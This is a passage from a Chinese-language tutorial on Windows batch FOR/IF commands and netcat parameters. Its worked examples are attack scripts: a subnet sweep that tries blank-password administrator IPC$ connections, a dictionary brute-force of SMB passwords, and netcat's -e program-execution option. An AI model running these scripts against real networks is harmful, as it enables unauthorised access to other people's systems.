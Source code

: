 附：批处理命令与变量

1：for命令及变量 基本格式：
FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
批处理每次能处理的变量从%0&mdash;%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2&mdash;%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3

(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ &ldquo;(1 1 254)&rdquo;第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；&ldquo;(1 -1 254)&rdquo;说明：即从254到1 }

command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
command_parameters：为特定命令指定参数或命令行开关

IN (set)：指在(set)中取值；DO command ：指执行command

参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
用法举例：
@echo off
echo 用法格式：test.bat *.*.* > test.txt

for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。

/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
@echo off
echo 用法格式：ok.bat ip
FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。
七：
2：if命令及变量 基本格式：
IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为&ldquo;真&rdquo;。
例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。
0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
例：&ldquo;if "%2%"=="4" goto start&rdquo;指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
例：&ldquo;if not nc.exe goto end&rdquo;指：如果没有发现nc.exe文件就跳到":end"标签处。
IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：&ldquo;if exist test.txt. <del test.txt.> else echo test.txt.missing &rdquo;，注意命令中的&ldquo;.&rdquo;

（二）系统外部命令(均需下载相关工具)：

1、瑞士军刀：nc.exe

参数说明：
-h 查看帮助信息
-d 后台模式
-e prog程序重定向，一但连接就执行［危险］
-i secs延时的间隔
-l 监听模式，用于入站连接
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C
-n IP地址，不能用域名
-o film记录16进制的传输
-p[空格]端口 本地端口号
-r 随机本地及远程端口
-t 使用Telnet交互方式
-u UDP模式
-v 详细输出，用-vv将更详细
-w数字 timeout延时间隔
-z 将输入，输出关掉（用于扫锚时）
基本用法：
nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
nc -l -p 80 开启本机的TCP 80端口并监听